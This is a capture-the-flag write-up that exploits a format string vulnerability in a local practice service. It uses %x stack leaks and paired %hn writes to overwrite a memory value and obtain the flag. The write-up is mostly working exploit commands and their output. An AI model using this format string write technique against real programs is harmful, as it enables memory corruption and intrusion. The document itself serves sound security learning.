 # Writeup

Let's connect to the service first:
```
nc 127.0.0.1 7778
Change 0xdeadbeef (at 0x80499ac) to 0xabadcafe
Enter a nice message:
```

Okay, so our goal is to overwrite the value at `0x80499ac` with `0xabadcafe`.
First, let's check what's on the stack:
```
$ python2 -c 'print "AAAA" + "%x."*10' | nc 127.0.0.1 7778
Change 0xdeadbeef (at 0x80499ac) to 0xabadcafe
Enter a nice message: You entered: 
AAAA3f.f7fd1c20.0.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
Sorry, no flag for you :(
Value: deadbeef
```

Nice! The fourth parameter printed from the stack is the start of our input (`AAAA`). This means that we can use the `%hn` format specifier to write values to this address. Let's change it to `0x80499ac` and see what happens when we write to it:

```
$ python2 -c 'print "\xac\x99\x04\x08" + "%x%x" + "%08x" + "%hn"' | nc 127.0.0.1 7778
Change 0xdeadbeef (at 0x80499ac) to 0xabadcafe
Enter a nice message: You entered: 
��3ff7fd1c2000000000
Sorry, no flag for you :(
Value: dead0016
```

Sweet! However, we can only overwrite the last 2 bytes, so we have to use another `%hn` to overwrite the two higher bytes as well. We need an extra argument in between the two addresses to be able to control the value of the upper bytes.
```
$ python2 -c 'print "\xac\x99\x04\x08ASDF\xae\x99\x04\x08" + "%x%x" + "%08x" + "%hn" + "%08x" + "%hn"' | nc 127.0.0.1 7778
Change 0xdeadbeef (at 0x80499ac) to 0xabadcafe
Enter a nice message: You entered: 
��ASDF��3ff7fd1c200000000046445341
Sorry, no flag for you :(
Value: 26001e
```

One way of getting the correct values now is to use the formula `wanted - current + 8` (+8 because we're printing with `%08x`).


```
$ python2 -c 'print "\xac\x99\x04\x08ASDF\xae\x99\x04\x08" + "%x%x" + "%51944x" + "%hn" + "%08x" + "%hn"' | nc 127.0.0.1 7778
[lots of crap]
Sorry, no flag for you :(
Value: cb06cafe
```

`0xabad - 0xcb06 + 8 = -8017`, so we have to add a `1` to `abad``. `0x1abad - 0xcb06 + 8 = 57519`.

```
python2 -c 'print "\xac\x99\x04\x08ASDF\xae\x99\x04\x08" + "%x%x" + "%51944x" + "%hn" + "%57519x" + "%hn"' | nc 127.0.0.1 7778
[...]
Success! The flag is: TG16{overWrit3_that_shit_y0}
```
